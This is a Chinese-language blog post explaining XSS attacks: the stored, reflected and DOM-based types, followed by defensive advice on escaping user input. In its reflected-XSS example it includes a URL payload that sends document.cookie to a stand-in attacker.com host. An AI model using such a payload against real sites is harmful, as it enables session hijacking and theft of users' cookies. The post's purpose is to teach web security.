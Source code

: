 ```yaml
---
layout:     post
title:      "XSS攻击"
subtitle:   "web安全知识系列～"
date:       2018-06-01
author:     "Jeff"
header-img: "img/post-bg-2015.jpg"
tags:
    - JavaScript
    - WEB安全
---
```


## XSS

**XSS** (Cross Site Script，缩写为了区分 CSS，把 C 改为 X，X 本就有 Cross 十字的含义），中文称为“跨站脚本”。

>XSS攻击的形式千差万别，但是，它们的共同点为：将一些隐私数据像cookie、session发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作。

**我们只要能把我们可控的 JavaScript 脚本内容注入到目标页面，那这个页面就存在 XSS 漏洞。**

#### XSS的三种攻击方式

- 存储型XSS（持久型）
- 反射型XSS（非持久型）
- 基于DOM的XSS

刚看到这三个术语的我是懵逼的...



通过一个场景来介绍下**存储型XSS**。例如我们进到一个留言板页面，攻击者在留言板上注入一行script脚本。

```javascript
<script> console.log('XSS') </script>
```

因为留言板需要保存这个信息，**那么这行脚本会存储在服务器的数据库中**。所以叫存储型XSS。
当下一个用户访问留言板时，他会看到之前用户的留言，包含攻击者注入的脚本。如果留言板这个网站，没有做防XSS的处理，那么浏览器会把这行脚本解析为script标签，执行里面的js脚本。
**并且，之后每一位用户访问留言板都会受到XSS攻击！**所以也叫**持久型**XSS～



而**反射型XSS**，它是非持久的。什么意思呢？相比较于存储型XSS，反射型XSS不会把脚本存储到服务端，而是通过欺骗用户自己去点击链接才能触发XSS代码，一般容易出现在搜索页面。

假如有一个搜索页面，当我们请求这个页面时，页面会把url参数展示在dom中。

比如访问`https://www.search.com?search=衣服`时，页面展示`衣服`字样，并且该页面未做防XSS处理。

那么当用户访问下面这个链接时，浏览器就会执行search参数后js语句，新建一个Image标签，请求一个接口，把用户在`https://www.search.com`下的cookie拿走了。

```javascript
https://www.search.com?search=<script>var+i=new+Image;+i.src="http://attacker.com/"document.cookie;</script>
```

由于浏览器的同源策略并不会判定Image标签跨域，所以攻击者可以拿到用户的cookie～

假如攻击者拿到我们在该网站的cookie，且我们是登陆的状态，那么攻击者就能用我们的身份做事情了。



而**基于DOM的XSS**指的是通过dom的某些属性能执行js脚本，例如 **onclick**，**innerHTML**，**document.write**等属性。反射型XSS的攻击点在于url，而基于DOM的XSS攻击点在与dom的一些属性。



#### **那么XSS如何防范呢？**

XSS攻击的模式很简单，就是把自己的代码嵌入到页面里，随页面一块执行；XSS攻击的防范也一样简单，对于网站的开发者，首先应该把精力放到对所有用户提交内容进行可靠的输入验证上。

**1、html**

只需要转义< > 即可，只要没有html标签，页面就是安全的。

**2、JS**

将要输出到js代码片断中的用户输入内容没有好的办法进行处理；仅转义少数字符不能保证去掉所有的攻击可能。因此，一般建议不要把用户产生的内容直接输出到js片断中。

如果条件所限，必须将内容直接输出，有如下方法可供选择：

1) 如果待输出的内容有特定的取值返回或者特定的格式，可以使用白名单或者正则表达式进行处理。

2) 可以将内容输出到html的隐藏标签或隐藏表单中，js通过获取标签的内容得到该内容。